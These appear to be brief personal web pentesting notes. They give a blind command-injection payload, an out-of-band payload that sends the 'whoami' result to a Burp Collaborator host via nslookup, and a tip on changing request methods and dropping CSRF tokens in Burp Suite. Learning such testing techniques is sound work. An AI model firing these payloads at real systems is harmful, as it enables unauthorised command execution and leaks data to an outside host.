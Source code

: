 
* blind command injection in burp suite
||ping+-c+10+127.0.0.1||

* out of ban command injection
||nslookup+"whoami".burpcollaborator||

* Change Request Method
 By burpsuite pro we can change request method and can change sensitive data
 We can also delete csrf token if we can change request